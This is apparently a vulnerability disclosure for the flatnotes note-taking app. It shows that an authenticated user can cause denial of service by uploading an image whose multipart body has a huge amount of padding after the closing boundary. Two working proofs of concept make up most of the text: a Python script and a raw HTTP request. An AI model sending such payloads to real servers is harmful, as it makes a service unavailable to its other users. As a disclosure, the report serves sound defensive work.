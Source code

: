 ### Description
Anyone who can log in to flatnotes and upload images through the function can cause DOS , which can prevent others from using it, other API interfaces from being accessed, and server DOS attacks

### Impact  
![image](https://github.com/user-attachments/assets/3f75eeb5-c5cd-4570-92b6-3e3b3fdab0f5)
### Proof of Concept 1
```
import requests

url = "http://192.168.137.11:8080/api/attachments"

headers = {
    "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "multipart/form-data",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Origin": "http://192.168.137.11:8080",
    "Referer": "http://192.168.137.11:8080/new",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc",
    "Connection": "keep-alive"
}

data = (
    "------WebKitFormBoundaryN20AMdlOKTaspeAy\r\n"
    "Content-Disposition: form-data; name=\"file\"; filename=\"sword.png\"\r\n"
    "Content-Type: image/png\r\n\r\n" + file_content+ "\r\n"
    "------WebKitFormBoundaryN20AMdlOKTaspeAy--"+"0123456789"*50000+"\r\n"
)

response = requests.post(url, headers=headers, data=data)

```

### Proof of Concept 2
```
POST /api/attachments HTTP/1.1
Host: 192.168.137.11:8080
Content-Length: 1440589
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryN20AMdlOKTaspeAy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://192.168.137.11:8080
Referer: http://192.168.137.11:8080/new
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Connection: keep-alive

------WebKitFormBoundaryN20AMdlOKTaspeAy
Content-Disposition: form-data; name="file"; filename="sword.png"
Content-Type: image/png

PNG
ND®B`
------WebKitFormBoundaryN20AMdlOKTaspeAy--
1234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567[attenation:A large amount of useless data]
```
![image](https://github.com/user-attachments/assets/4f958e80-bc72-41f0-bca2-5cb8c9f10a33)



### refer 
[Github project](https://github.com/dullage/flatnotes)  
[origin issue](https://github.com/dullage/flatnotes/issues/259)

